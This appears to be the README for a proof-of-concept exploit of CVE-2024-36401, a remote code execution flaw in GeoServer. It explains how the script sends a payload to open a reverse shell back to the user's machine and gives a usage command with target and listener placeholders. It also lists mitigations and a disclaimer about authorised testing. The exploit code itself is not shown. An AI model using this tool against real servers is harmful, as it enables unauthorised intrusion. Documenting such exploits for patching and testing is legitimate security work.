

# RCE for CVE-2024-36401
POC for CVE-2024-36401 GeoServer. This POC will attempt to establish a reverse system shell from the targets.





## Overview

POC for CVE-2024-36401: RCE for GeoServer version prior to 2.25.1, 2.24.3 and 2.23.5 of GeoServer. This POC is based on the security advisory by [phith0n](https://github.com/vulhub/vulhub/tree/master/geoserver/CVE-2024-36401).


## How it Works

1. Sets up a listener on your machine for incoming reverse shell from the target.
2. This POC will send a post request with the payloads.
3. Attempts to establish a shell on the target server.
4. This technique assumes nc is installed on the target.

## How to Use

This POC will attempt to establish a reverse shell from the vlun targets. This is aimed to work against vlun Linux targets. You will have to have a machine with published and accessiable IP in order to run this poc.


### Minimum Requirements

- Python 3.6 or higher
- `requests` library
  
To use this POC against a single target:
```sh
python CVE-2024-36401.py -u HTTP://TARGET:9090 -ip YOUR-IP -port LOCAL-PORT-NUMBER -type GeoServer-Object-Type
```

Help:
```sh
python3 CVE-2024-36401.py  -h

options:
  -h, --help  show this help message and exit
  -u U        Target, example https://target:8080
  -ip IP      Your IP, example 192.168.1.1
  -port PORT  Port, example 1337
  -type TYPE  Type, example sf:archsites
```

## How to Protect Your GeoServer Appliance

1- Disable WFS requests.

2- Secure your linux by configuring iptables to disable reverse connections, set default policies to drop all traffic, allow established and related connections, and permit only essential outbound traffic like DNS, HTTP, and HTTPS

3- Or upgrade to the latest version of GeoServer. 


## Contact

For any suggestions or thoughts, please get in touch with [me](https://x.com/MohamedNab1l).


## Disclaimer

I like to create my own tools for fun, work and educational purposes only. I do not support or encourage hacking or unauthorized access to any system or network. Please use my tools responsibly and only on systems where you have clear permission to test.

